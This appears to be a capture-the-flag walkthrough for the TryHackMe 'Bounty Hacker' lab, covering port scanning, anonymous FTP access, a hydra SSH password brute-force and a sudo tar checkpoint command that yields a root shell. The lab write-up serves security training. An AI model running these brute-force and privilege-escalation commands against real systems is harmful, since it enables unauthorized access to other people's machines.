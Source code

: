 <h2>Bounty Hacker</h2>
<ul>
    <li>Link to access the machine: https://tryhackme.com/room/cowboyhacker</li>
    <li>Free Machine</li>
    <li>Created by Sevuhl</li>
</ul>
<h2>1. Deploy the machine & Enumerate open ports</h2>

Run ```nmap -A (machine ip)```<br/>

| Port Number  | Service / Version |
| ------------- | ------------- |
| 21  | ftp / vsftpd 3.0.3  |
| 22  | ssh / OpenSSH 7.2p2  |
| 80 | http / Apache 2.4.18 |

<h2>2. Connect to ftp as anonymous</h2>

Run ```ftp (machine ip)
       Name: anonymous
       Login successful```

With ```ls``` command, we can see 2 files named ```locks.txt``` and ```task.txt```</br>
We can get this files using the ```mget *``` command</br>
For the question "Who wrote the task list? ", the answer can be found in the ```task.txt```

<h2>3. Bruteforce the SSH service</h2>

Run ```hydra -l lin -P locks.txt -t 4 ssh://10.10.16.154``` in order to bruteforce the ssh, using ```lin``` as id and ```locks.txt``` as passwords dictonary
</br>Finally, we get the password

<h2>4. Connect in SSH as lin</h2>

Run ```ssh lin@(machine ip)```<br>
We can run ```ls``` and ```cat user.txt```<br>
>There is the flag

<h2>5. Privilege escalation</h2>

Let's run ```sudo -l``` in order to check sudo configuration as lin<br>
```
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

<br>We can see that lin can run ```tar``` as <b>root</b>
<br>On GTFOBins (https://gtfobins.github.io/), we can see that if we can run ```tar``` as <b>sudo</b>, we can <b>escalate privilege</b> with</br>
the command ```sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```

<br>Let's run it

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```
<br>Now, we can ```cd root``` and access to the ```root.txt```
<br> Congraluations !
